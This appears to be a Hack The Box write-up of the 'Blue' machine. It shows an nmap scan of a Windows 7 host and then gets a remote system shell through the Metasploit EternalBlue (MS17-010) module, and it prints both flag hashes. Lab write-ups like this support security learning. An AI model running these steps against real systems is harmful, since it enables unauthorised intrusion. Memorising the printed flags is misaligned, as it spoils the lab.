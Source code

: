 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Blue
tags: []
---
```

**Start 17:55 31-07-2024**

---

## Nmap recon

As always we start off with a bit of active recon.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 10.10.10.40                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 17:03 IST
Nmap scan report for 10.10.10.40
Host is up (0.016s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m54s, deviation: 34m37s, median: 4s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-31T17:04:58+01:00
| smb2-time: 
|   date: 2024-07-31T16:05:01
|_  start_date: 2024-07-31T07:14:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.21 seconds

```

As we see above we have multiple ports open on a `Windows` machine. Right away we see that we are dealing with `Windows 7 Professional 7601`, meaning that the OS is quite outdated.
Since the machine is called `Blue` as well, this is probably hinting at us having to exploit the `Eternal Blue` exploit, aka `MS17-010`.

## Exploitation

### Metasploit
Since we are dealing with a machine which is vulnerable to the `Eternal Blue` exploit we will have to fire up `Metasploit` using `msfconsole` in order to rapidly walk through it. 

After firing up `Metasploit`, we simply use the following commands:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

After this, set up the `RHOSTS` and `LHOST` and the rest should already be set up correctly.
Hereafter just run `exploit` or `run` and let it do it's work, it might take multiple tries to configure a shell correctly.

![](../../../assets/b5a499b2b06d78bafd2a9b124afdf27a.png)

After we get the `meterpreter` shell we now need to issue the `shell` command in order to gain  a `powershell` shell.

![](../../../assets/fc5efb27bc093f7200c4ee06be20fbd4.png)

### user.txt
Since the only user besides the `Administrator` seems to be `haris` we'll just check his folders:

![](../../../assets/4ce40e4399eeb7c91f46a3933e773d3e.png)

And just like that, easy peasy.

```
cc178dbb1098be117b481cd5f62a67b0
```



### root.txt
Fairly straightforward stuff, since we're already root, we can just go ahead and find the flag in the `Desktop` directory of the `Administrator` user.

![](../../../assets/1860c762038b29da0699e969d01a542e.png)

```
3271a85e3f2d26537928ada8874fc9c7
```



![](../../../assets/20ac432dad057bec6b48babd14ef0985.png)

---

**Finished 22:19 31-07-2024**

[^Links]: [[Hack The Box]]
